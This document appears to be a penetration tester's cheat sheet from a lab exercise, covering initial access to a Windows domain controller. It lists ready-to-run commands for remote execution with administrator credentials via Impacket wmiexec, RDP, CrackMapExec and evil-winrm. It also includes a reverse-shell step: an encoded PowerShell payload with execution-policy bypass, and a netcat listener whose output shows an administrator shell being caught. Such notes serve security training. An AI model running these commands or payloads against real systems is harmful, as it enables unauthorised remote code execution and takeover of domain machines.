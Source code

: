 ## Initial Access
---

### Impacket

> https://vk9-sec.com/impacket-remote-code-execution-rce-on-windows-from-linux/

Connect via 5 exec methods:  **smbexec**, **psexec**, **wmiexec**, **atexec**, **dcomexec**

```bash
wmiexec.py CONTROLLER/Administrator:'P@$$W0rd'@10.10.125.202 -shell-type powershell
```

### RDP

**With dynamic screen resolution**

```bash
xfreerdp /u:Administrator /p:'P@$$W0rd' /d:CONTROLLER /v:10.10.125.202 /dynamic-resolution +clipboard /cert:ignore
```

**With static screen resolution**

```bash
xfreerdp /u:Administrator /p:'P@$$W0rd' /d:CONTROLLER /v:10.10.125.202 /size:1800x900
```

### Evin-Winrm

Make sure winrm is enabled before connecting with winrm

**Enable winrm**

```bash
cme smb 10.10.70.75 -u Administrator -p 'P@$$W0rd' -X 'Enable-PSRemoting -Force'
```

**Connect**

```bash

evil-winrm -i 10.10.125.202 -u Administrator -p 'P@$$W0rd'
```

### Reverse Shell

Get reverse shell

```bash
┌──(kali㉿kali)-[~/thm]
└─$ cme smb 10.10.125.202 -u Administrator -p 'P@$$W0rd' -x 'powershell -exec bypass -enc CgAkAGMAIAA9A...'
```

Use **rlwrap** to get autocompletes on windows machine

```bash
┌──(kali㉿kali)-[~/thm]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.125.202] 50292
whoami
controller\administrator
ps>
```
